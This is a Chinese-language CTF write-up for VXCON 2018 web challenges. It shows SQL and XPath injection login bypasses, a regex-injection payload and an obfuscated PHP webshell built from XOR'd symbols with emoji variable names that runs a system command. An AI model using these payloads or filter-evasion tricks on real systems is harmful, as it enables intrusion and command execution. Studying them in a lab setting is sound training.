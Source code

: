# vxcon2018
這次比賽個人覺得難度沒有很高(因為我至少有頭緒:joy:)，題目質量都能確保讓我們學到東西， 下面紀錄一些賽後解出來的題目...

## Lock Pick Duck (1)
[source code](https://github.com/shinmao/CTF-writeups/blob/master/vxcon2018/lpd_source.php)  
payload滿足三個條件就能拿到第一把flag  
```php
if(@preg_match("/^$U,$P$/m", $csvdb)){
        $flag++;
        echo "csvdb1\n";
    }

    if(@$sqldb->querySingle("SELECT username FROM users WHERE username='$U' AND password='$P'") == TRUE){
        $flag++;
        echo "sqldb1\n";
    }

    if(@$xmldb->xpath("//users/user[username='$U' and password='$P']") == TRUE){
        $flag++;
        echo "xmldb1\n";
    }
```
上面是通過的三個條件：  
2和3很簡單，sql injection 和 xpath injection 用
```php
?username='or''='&password='or''='
```
就可以通過  
第一個條件我就想了很久，注入正則想也知道洞很大，卻遲遲想不到怎麼注入  
賽後才知道，不如讓全部都匹配吧:+1:  
```php
?username=(.*)|' or ''='&password=(.*)|' or ''='
```
這樣就可以拿到第一把flag： `Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
除此之外，肯定還有很多繞過方法

## Lock Pick Duck (2)
繼上題一樣的source code，payload滿足六個條件就能拿到第二把flag  
第二題我目前最多只能構造到四個條件，xpath的條件都跟其他條件衝突  
不過也學到不少關於`preg_match`跟正則的關係  
payload: `http://trick.fflm.ml/?username=(a)|' union select 'a'--&password=a`  
必須重複刷新直到csv架構中出現**a**字元：`Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`


## Patch Peep Huck (w)
```php
 <?=
!$I=&$_FILES[!!$l='tmp_name'] || $I['size']>>7 || preg_match('/\w/',join(file($I[$l])))?
!show_source(__FILE__) : !include($I[$l]);
```
我在比賽時碰到了**讀不懂代碼**的問題:cold_sweat:  
賽後看了@kaibro的wp真的是讓我驚呆了呀  
首先是:
```php
$_FILES[!!$l='tmp_name']
```
這部分，我對`$_FILES`的結構還是有所了解的。`tmp_name`應該是要在第二層陣列之中，我在這裡卡了好久。原來問題出在`!!`，`!!`會將語句轉為boolean回傳true or false！  
這裏將`tmp_name`傳入參數的動作一定會回傳true，因此事實上這裏傳入`$I`的東東就是`$_FILES[1]`。  
解開了代碼的疑惑，再來看題目想幹嘛：  
上傳FILE，限制FILE的size，並且將FILE的內容join成字串做匹配  
典型的上傳webshell題，內容不能帶有字母，數字，底線  
(上傳檔案不一定要用burp代理，也可以自己寫個upload form，把action設給題目就好)  
一開始我卡在**底線的部分**很久，賽後看了@kaibro引用了在@l4w中的技巧 -> 表情符號  
終於自己寫出了個payload：  
```php
<?=
$😊 = "||||%-" ^ "/%/(``"; 
$😊 ("`|" ^ ",/");
```
剛開始解題的時候，我也有常識XOR的思路，根據P師傅的說法，我們可以用兩個特殊符號做XOR構造出a-z之間的字母，可是我卻怎麼湊都湊不出來...  
賽後才想到，乾脆來寫個php，把所以特殊符號之間的XOR都列出來，直接查表不就得了:  
```php
$arr1 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");
$arr2 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");

foreach ($arr1 as $value1) {
	foreach ($arr2 as $value2) {
		$x = $value1^$value2;
		print($x." ".$value1." ".$value2);
		echo "<br/>";
	}
	echo "<br/>";
}
```
於是通過上面的懶蟲法，我成功湊出了`<?=SYSTEM(LS);`的payload  

## Reference
1. [Kaibro WP](https://github.com/w181496/CTF/tree/master/vxcon2018)  
2. [官方詳解](https://github.com/ozetta/ctf-challenges)  
3. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
